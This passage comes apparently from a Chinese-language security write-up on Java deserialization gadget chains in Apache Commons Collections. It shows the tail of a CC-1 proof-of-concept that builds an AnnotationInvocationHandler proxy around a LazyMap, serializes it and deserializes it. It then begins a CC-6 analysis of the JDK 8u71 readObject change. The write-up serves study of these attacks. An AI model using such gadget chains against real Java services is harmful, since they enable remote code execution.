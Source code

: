 ```plain
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class, mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }
```

## CC-6 分析

### 分析版本

Commons Collections3.2.1

jdk8u71

### 分析过程

#### 版本修改

在 JDK-8u71 版本之后，cc-1 的关键漏洞点 AnnotationInvocationHandler.java 的 readObject 方法做出了一下修改

[![](assets/1700127979-af79b012b5bd8afd931010c4f1440744.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155056-dfe814b4-8454-1.png)
